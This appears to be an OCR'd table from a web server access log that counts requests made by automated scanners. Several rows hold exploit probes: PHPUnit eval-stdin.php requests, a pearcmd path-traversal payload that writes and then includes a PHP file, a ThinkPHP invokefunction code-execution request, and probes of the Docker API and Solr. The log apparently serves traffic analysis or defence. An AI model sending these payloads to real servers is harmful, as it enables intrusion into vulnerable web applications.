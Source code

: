 |  69 |                     2 | GET /test/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|  70 |                     2 | GET /tests/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  71 |                     2 | GET /V2/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  72 |                     2 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  73 |                     2 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  74 |                     2 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  75 |                     2 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  76 |                     2 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  77 |                     2 | GET /solr/admin/info/system HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |